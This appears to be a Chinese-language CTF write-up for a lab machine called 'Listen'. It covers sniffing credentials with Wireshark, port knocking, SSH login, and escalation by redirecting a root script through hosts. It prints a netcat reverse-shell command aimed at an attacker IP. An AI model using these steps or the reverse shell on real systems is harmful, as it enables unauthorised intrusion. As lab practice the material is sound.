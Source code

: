 # Listen

## 流量监听

`fscan`和`nmap`扫描没什么思路，看了下`wp`，说是需要用`wireshark`监听，使用`wireshark`监听后

![](./img/Listen-1.png)

## knock端口

说是使用`knock`敲击`1337`端口，然后`80`端口就打开了

![](./img/Listen-2.png)

在源码发现`leo`的`hash`，但是用`rockyou`没爆出来，但是在`wireshark`发现了类似账号密码，尝试登录

![](./img/Listen-3.png)

## /dev/pts

使用`silence/listentome`登录成功

![](./img/Listen-4.png)

这个`/dev/pts/4`代表`ssh`连接`4`次，不知道为啥我的在第`5`个给了

![](./img/Listen-5.png)

登录`listen`

![](./img/Listen-6.png)

## hosts修改

发现`listentome.sh`是`root`权限，可以修改`host`使`listen`为攻击机`ip`

![](./img/Listen-7.png)

在攻击机的`ihearyou.sh`里面写入反弹`shell`的命令

```bash
echo "nc 192.168.1.92 9999 -c /usr/bin/bash" > ihearyou.sh
```

然后开启`web`服务并使用`80`端口

![](./img/Listen-8.png)